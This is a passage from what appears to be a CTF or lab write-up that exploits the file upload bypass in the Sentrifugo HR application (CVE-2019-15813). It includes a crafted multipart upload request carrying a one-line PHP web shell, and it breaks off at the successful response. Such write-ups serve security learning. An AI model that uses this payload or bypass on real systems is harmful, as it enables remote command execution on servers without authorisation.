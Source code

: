 
![evidence](./static/13-sentrifugo-expenses.png)

But although I send an allowed extension, nothing is uploaded, when I intercept the post request with `BurpSuit`, then I can identify that the post request is wrong:

![evidence](./static/14-burpsuit.png)

And I tried to fix it without success, and here I was stuck for several days. When I google `sentrifugo expenses/expenses/uploadsave`, then I find [Sentrifugo Exploits](https://liberty-shell.com/sec/2019/08/31/sentrifugo/), nd that post has a lot of information about `CVE-2019-15813`, and it details how to exploit the file upload restriction bypass. When I combine that with reading the source code, then I was able to understand how the exploit works, and I mean, it does not matter that the PoC of the exploit failed, and the important thing is that that kind of exploitation will work, and it will do it in any of the upload options used in Sentrifugo. When I store a PHP web shell in the `ws.php.docx` file, and I intercept the request with `BurpSuit`, and I modify the body with:
```http
-----------------------------18995739228647964924095755055
Content-Disposition: form-data; name="myfile" ; filename="shell.php"
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
-----------------------------18995739228647964924095755055--
```
Then I get a successful response: